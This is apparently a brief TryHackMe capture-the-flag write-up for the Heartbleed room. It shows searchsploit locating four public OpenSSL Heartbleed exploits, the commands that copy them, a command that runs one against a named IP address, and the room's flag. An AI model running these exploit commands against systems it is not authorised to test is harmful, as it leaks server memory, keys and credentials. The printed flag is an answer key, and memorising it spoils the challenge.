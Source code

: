 ```
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 298.02 seconds
```

```
kali@kali:~/CTFs/tryhackme/HeartBleed$ searchsploit heartbleed
------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                         |  Path
------------------------------------------------------------------------------------------------------- ---------------------------------
OpenSSL 1.0.1f TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure (Multiple SSL/TLS Versions)    | multiple/remote/32764.py
OpenSSL TLS Heartbeat Extension - 'Heartbleed' Information Leak (1)                                    | multiple/remote/32791.c
OpenSSL TLS Heartbeat Extension - 'Heartbleed' Information Leak (2) (DTLS Support)                     | multiple/remote/32998.c
OpenSSL TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure                                       | multiple/remote/32745.py
------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
kali@kali:~/CTFs/tryhackme/HeartBleed$ searchsploit -m 32764 32791 32998 32745
  Exploit: OpenSSL 1.0.1f TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure (Multiple SSL/TLS Versions)
      URL: https://www.exploit-db.com/exploits/32764
     Path: /usr/share/exploitdb/exploits/multiple/remote/32764.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /home/kali/CTFs/tryhackme/HeartBleed/32764.py


  Exploit: OpenSSL TLS Heartbeat Extension - 'Heartbleed' Information Leak (1)
      URL: https://www.exploit-db.com/exploits/32791
     Path: /usr/share/exploitdb/exploits/multiple/remote/32791.c
File Type: C source, ASCII text, with CRLF line terminators

Copied to: /home/kali/CTFs/tryhackme/HeartBleed/32791.c


  Exploit: OpenSSL TLS Heartbeat Extension - 'Heartbleed' Information Leak (2) (DTLS Support)
      URL: https://www.exploit-db.com/exploits/32998
     Path: /usr/share/exploitdb/exploits/multiple/remote/32998.c
File Type: ASCII text, with CRLF line terminators

Copied to: /home/kali/CTFs/tryhackme/HeartBleed/32998.c


  Exploit: OpenSSL TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure
      URL: https://www.exploit-db.com/exploits/32745
     Path: /usr/share/exploitdb/exploits/multiple/remote/32745.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /home/kali/CTFs/tryhackme/HeartBleed/32745.py


kali@kali:~/CTFs/tryhackme/HeartBleed$ python 32745.py 34.240.13.68 > 32745result.txt
```

1. What is the flag?

`THM{sSl-Is-BaD}`
